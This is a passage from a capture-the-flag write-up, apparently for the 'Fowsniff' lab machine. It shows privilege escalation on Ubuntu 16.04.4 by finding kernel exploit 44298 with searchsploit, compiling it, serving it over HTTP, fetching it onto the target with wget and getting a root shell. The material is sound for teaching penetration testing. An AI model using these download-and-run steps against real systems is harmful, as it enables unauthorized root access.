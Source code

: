 respectively. So, we know we're running **Ubuntu 16.04.4** and Linux Kernel version **4.4.0-116** - both of these are from the year 2016.

We can search for that in ExploitDB or via the CLI via `searchsploit`:

```bash
searchsploit linux kernel 4.4.0-116
```

That gives me several options, but one exact match for OS and Kernel (44298):

```text
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01)  | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local  | linux/local/50135.c
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE'  | linux/local/41995.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCC | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privile | linux/local/41886.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_k | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privi | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double so | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Over | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora  | linux/local/45010.c
Linux Kernel < 4.14.rc3 - Local Denial of Ser | linux/dos/42932.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR A | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_da | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Fre | linux/dos/44579.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - L | linux/local/44298.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu  | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/1 | linux/local/47169.c
Linux Kernel < 4.5.1 - Off-By-One (PoC)       | linux/dos/44301.c
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The kill-chain here would be:

1. Copy the file to my local directory via: `cp /usr/share/exploitdb/exploits/linux/local/44298.c ./`
1. Compile the program with static-linking and produce a file called `44298-exploit` via: `gcc -static ./44298.c -o 44298-exploit`
1. Run a web server from this folder on port 8000 via: `python -m http.server 8000`
1. On the target machine:
   1. Download the file from our computer via: `wget http://10.6.90.119:8000/44298-exploit`
   2. Mark that newly-downloaded file on the target machine as executable via: `chmod +x ./44298-exploit`
   3. Run it: `./44298-exploit`

We see this output:

```bash
baksteen@fowsniff:~$ ./44298-exploit
task_struct = ffff88001f28c600
uidptr = ffff880015f3d6c4
spawning root shell
root@fowsniff:~# 
```
